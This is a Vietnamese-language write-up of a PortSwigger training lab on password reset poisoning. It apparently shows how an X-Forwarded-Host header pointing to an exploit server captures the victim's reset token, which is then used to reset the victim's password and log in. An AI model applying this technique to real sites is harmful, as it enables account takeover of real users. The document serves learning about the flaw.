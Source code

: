 # Write-up: Password reset poisoning via middleware

### Tổng quan
Khai thác lỗ hổng password reset poisoning để lấy token đặt lại mật khẩu của `carlos` qua middleware, reset mật khẩu và đăng nhập vào tài khoản của anh ta.

### Mục tiêu
- Lấy token đặt lại mật khẩu của `carlos`.
- Reset mật khẩu và đăng nhập vào tài khoản `carlos`.

### Thông tin đăng nhập
- Tài khoản của bạn: `wiener`:`peter`
- Tài khoản nạn nhân `carlos`

### Công cụ sử dụng
- Burpsuite Community
- Firefox Browser
- Exploit Server: Để lưu trữ access log và lấy token của `carlos`.

### Quy trình khai thác
1. **Thu thập thông tin (Recon)**
- Kiểm tra chức năng "Forgot Password":
    - Gửi yêu cầu POST /forgot-password với username wiener, bắt bằng Burp Suite:
        ![mail](./images/forgot.png)
    - Thêm header X-Forwarded-Host: exploit-academy-id.exploit-server.net để kiểm tra liên kết email.
    - Nhập username `wiener` và gửi yêu cầu đặt lại mật khẩu.
        
    - Nhận email với liên kết reset chứa host exploit server: `temp-forgot-password-token=vjvio3ziso334z3dzc9k5oi291yke2va`
        
    - **Kết luận**: Ứng dụng dùng `X-Forwarded-Host` để tạo liên kết reset, cho phép lấy token của `carlos`.

2. **Brute-force mật khẩu**
- Trong Burp, gửi các HTTP request tới repeater
     -  `POST /forgot-password HTTP/2` (1)
    -  `GET /forgot-password?temp-forgot-password-token=vjvio3ziso334z3dzc9k5oi291yke2va HTTP/2` (2)
    -  `POST /forgot-password?temp-forgot-password-token=vjvio3ziso334z3dzc9k5oi291yke2va HTTP/2` (3)

- Lấy token của `carlos`:
    - Trong repeater (1): sử dụng header `X-Forwarded-Host` để lấy token khi carlos nhấp vào mail reset mật khẩu.
        ![host](./images/host.png)
        - Nhận token trong exploit server
        ![token](./images/token.png)

    - Trong repeater (2): gửi GET request với token `muy5810hv5ppkd1p5tb68v5w5zjtj42e`
        ![reset](./images/reset.png)
        - Nhận giao diện đổi mật khẩu.
    - Trong repeater (3):
        - Đổi giá trị temp-forgot-password-token = muy5810hv5ppkd1p5tb68v5w5zjtj42e và gửi ta reset mật khẩu thành 1111
        - Gửi POST request để reset mật khẩu:
        ![reseted](./images/reseted.png)
        - Mật khẩu của `carlos` được reset thành `1111`

3. **Khai thác (Exploitation)**:
- Vào phần `/login` và đăng nhập `carlos`:`1111` và hoàn thành lab
    ![vào](./images/login_success.png)

### Bài học rút ra
- Hiểu cách khai thác password reset poisoning bằng header X-Forwarded-Host để lấy token.
- Nhận thức tầm quan trọng của việc kiểm tra header trong chức năng reset mật khẩu.

### Tài liệu tham khảo
- PortSwigger: Authentication vulnerabilities

### Kết luận
Lab này giúp tôi nắm rõ cách khai thác password reset poisoning qua middleware, sử dụng Burp Suite và exploit server để lấy token và reset mật khẩu. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.
